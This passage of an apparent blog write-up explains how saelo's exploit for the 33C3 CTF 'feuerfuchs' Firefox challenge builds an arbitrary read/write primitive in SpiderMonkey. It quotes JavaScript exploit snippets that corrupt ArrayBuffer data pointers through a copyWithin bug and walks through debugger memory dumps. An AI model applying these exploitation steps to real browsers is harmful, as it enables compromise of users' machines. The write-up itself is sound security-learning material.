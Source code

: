Let's see what data will be copied to `dest`:

![](/assets/images/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/copy_addr.PNG)

Here `dest` = `0x7ffff7ebc558` and `src` = `0x7ffff7ebc580`, we can see the value `0x3ffffbf5e2d0` will be copied to `dest`. According to saelo's comment in the exploit:

```javascript
    // First qword in adjusted view now contains the data pointer (which is stored as a Private, thus needs to be shifted)
    var ptr = LShift1(new Int64(view));
    // ptr will point to inline data so we can calculate the address of the preceeding ArrayBuffer
    var addressOfInnerArrayBuffer = Sub(ptr, 8*8 + 8*8 + 8*12);
```

So `0x3ffffbf5e2d0` is actually a data pointer of an ArrayBuffer in its "Private" form. If we left shift the value 1 bit, it will become `0x7ffff7ebc5a0`, which is the data pointer of `buffers[80]`.

> I've traced the source code of SpiderMonkey and couldn't find the definition of the "Private form", so I still don't know why you need to left shift the value 1 bit to get the correct address of the data pointer. I would really appreciate it if someone can tell me where the definition is.

So what `view.copyWithin(hax, 32+8, 40+8);` does is copy the next ArrayBuffer's ( `buffers[80]` ) data pointer into TypedArray `view` . 

Later it stores the data pointer into `ptr`, and minus `224` to get the `addressOfInnerArrayBuffer`, which in this case is `0x7ffff7ebc4c0`:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x0000000000000000  <-- slots_
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
0x00007ffff7ebc4e0│+0x20: 0x00003ffffbf5e280  <-- data pointer
0x00007ffff7ebc4e8│+0x28: 0xfff8800000000060  <-- length
0x00007ffff7ebc4f0│+0x30: 0xfffe7ffff4601e60  <-- JSObject ( point to Uint8Array )
0x00007ffff7ebc4f8│+0x38: 0xfff8800000000000  <-- offet
0x00007ffff7ebc500│+0x40: 0x0000000000000000  <-- start point of a data pointer
0x00007ffff7ebc508│+0x48: 0x0000000000000000

```

We can see that `0x7ffff7ebc4c0` is "the address of `buffers[79]`". If we left shift the data pointer `0x3ffffbf5e280`, we'll get `0x7ffff7ebc500` -- the data pointer of `buffers[79]`. 


Let's see what does the exploit do next:

```javascript
    // Trigger the bug a second time to write the modified data pointer
    view.set(RShift1(addressOfInnerArrayBuffer).bytes());
    view.offset = 0;
    view.copyWithin(32+8, hax, 8);
```

It triggers the bug second time, and modified `buffers[80]`'s data pointer into `addressOfInnerArrayBuffer`. This make us able to modified `buffers[79]`'s structure by editing `buffers[80]`, and thus we'll have an arbitrary read/write primitive !
